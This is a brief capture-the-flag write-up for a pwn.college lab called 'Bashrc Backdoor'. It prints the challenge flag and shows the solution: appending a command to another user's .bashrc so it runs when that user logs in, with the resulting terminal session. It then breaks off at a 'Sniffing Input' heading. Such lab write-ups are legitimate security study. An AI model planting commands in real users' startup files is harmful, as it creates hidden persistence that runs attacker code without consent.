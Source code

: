 ### Bashrc Backdoor
```pwn.college{UOrjR33aimjURmvTX8HO0oRLMKj.QXxMTM3EDL1gTN0czW}```  

the .bashrc file serves as the startup script.  
In this challenge we can add a line to the .bashrc script which cats the flag file and gives us the flag when the victim logs on.  
```
~$ echo "cat /flag" >> /home/zardus/.bashrc
~$ /challenge/victim
Username: zardus
Password: **********
pwn.college{UOrjR33aimjURmvTX8HO0oRLMKj.QXxMTM3EDL1gTN0czW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
```

### Sniffing Input
```
